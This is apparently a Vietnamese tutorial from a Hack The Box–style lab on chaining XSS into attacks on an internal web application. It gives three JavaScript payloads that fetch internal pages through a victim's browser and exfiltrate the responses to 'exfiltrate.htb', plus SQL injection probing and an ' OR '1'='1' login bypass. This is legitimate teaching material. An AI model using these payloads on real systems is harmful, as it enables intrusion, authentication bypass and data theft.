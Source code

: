 # Khai thác ứng dụng Web nội bộ
Trong phần này, chúng ta sẽ tiếp tục sử dụng lỗ hổng XSS để khai thác một lỗ hổng bảo mật khác trong một ứng dụng web nội bộ. Đây là một ví dụ về việc sử dụng XSS để khai thác SQL injection và Command injection trong một ứng dụng web mà người tấn công không thể truy cập trực tiếp do chúng nằm trong mạng nội bộ.

### 1. Khám Phá Lỗ Hổng

Lần đầu tiên, chúng ta sẽ dùng payload XSS giống như trong các phần trước để lấy dữ liệu từ endpoint `/admin.php`. Tuy nhiên, thay vì chỉ lấy thông tin từ một ứng dụng web bên ngoài, lần này chúng ta sẽ xâm nhập vào một ứng dụng web nội bộ ở địa chỉ `http://internal.vulnerablesite.htb`.

- **Kiểm tra việc truy cập trực tiếp**: Nếu cố gắng truy cập trực tiếp trang này, chúng ta bị chặn lại (được bảo vệ bởi một cơ chế xác thực).
  
- **Dùng XSS để kiểm tra ứng dụng nội bộ**: Ta có thể sử dụng lỗ hổng XSS để gửi các yêu cầu HTTP từ trình duyệt của nạn nhân, qua đó có thể truy xuất các nội dung của trang web nội bộ mà không cần phải truy cập trực tiếp.

Ví dụ về cách gửi một yêu cầu GET để trích xuất nội dung của trang index của ứng dụng nội bộ:
```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://internal.vulnerablesite.htb/', false);
xhr.send();
var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

### 2. Khai Thác SQL Injection

Khi kiểm tra trang đăng nhập của ứng dụng nội bộ, chúng ta nhận thấy rằng có thể khai thác SQL Injection từ trường nhập liệu tên người dùng.

- **Gửi Payload để kiểm tra SQL Injection**:
```javascript
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("'test")}&pass=x`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);
var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

- **Phản hồi với lỗi SQL**: Nếu trang trả về lỗi như `HTTP 500 - SQL Error`, điều này xác nhận ứng dụng web dễ bị tấn công SQL Injection.

### 3. Khai Thác SQL Injection Để Bỏ Qua Xác Thực

Để bỏ qua cơ chế xác thực, chúng ta có thể dùng payload SQL Injection như sau:
```javascript
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("' OR '1'='1' -- -")}&pass=x`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);
var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```
